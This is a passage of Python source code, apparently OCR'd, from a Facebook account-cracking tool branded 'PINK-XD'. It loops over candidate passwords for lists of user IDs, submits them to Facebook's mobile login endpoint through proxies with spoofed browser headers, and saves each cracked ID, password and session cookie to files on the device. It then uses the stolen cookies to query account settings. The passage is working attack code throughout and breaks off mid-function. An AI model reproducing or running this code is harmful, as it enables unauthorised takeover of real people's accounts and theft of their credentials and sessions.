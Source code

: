 	sys.stdout.write('\r%s â˜¬ %s/%s â˜¬ OK:%s â˜¬ CP:%s â˜¬ %s%s%s â˜¬'%(bi,loop,len(id2),ok,cp,int(pers),str(fff),x));sys.stdout.flush()
	for pw in pwv:
		try:
			ses.headers.update({'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})
			p = ses.get('https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://mbasic.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'fr_FR,fr;q=0.9,en-US;q=0.8,en;q=0.7','connection': 'close'}
			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				if 'ya' in oprek:
					akun.append(idf+'|'+pw)
					ceker(idf,pw)
				elif 'ya' in princp:
					print('\n')
					statuscp = f'[â€¢] ID       : {idf} [â€¢] PASSWORD : {pw}'
					statuscp1 = nel(statuscp, style='red')
					cetak(nel(statuscp1, title='PINK-XD CP'))
					open('/sdcard/PINK-DATA/CP/'+cpc,'a').write(idf+'|'+pw+'\n')
					akun.append(idf+'|'+pw)
					cp+=1
				else:continue
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				headapp={"user-agent":"SupportsFresco=1 Dalvik/2.1.0 (Linux; U; Android 6.0.1; SM-J210F Build/MMB29Q) Source/1 [FBAN/EMA;UNITY_PACKAGE/342;FBBV/107586706;FBAV/172.0.0.8.182;FBDV/SM-J210F;FBLC/id_ID;FBOP/20]"}
				if 'no' in taplikasi:
					coki=po.cookies.get_dict()
					kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
					open('/sdcard/PINK-DATA/OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
					print('\n')
					statusok = f'[â€¢] ID       : {idf}\n[â€¢] PASSWORD : {pw}\n[â€¢] COOKIES  : {kuki}'
					statusok1 = nel(statusok, style='green')
					cetak(nel(statusok1, title='OK'))
					ok+=1
					break
				elif 'ya' in taplikasi:
					coki=po.cookies.get_dict()
					kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
					open('/sdcard/PINK-DATA/OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
					user=idf
					infoakun = ""
					session = requests.Session()
					cek2 = session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies=coki,headers=headapp).text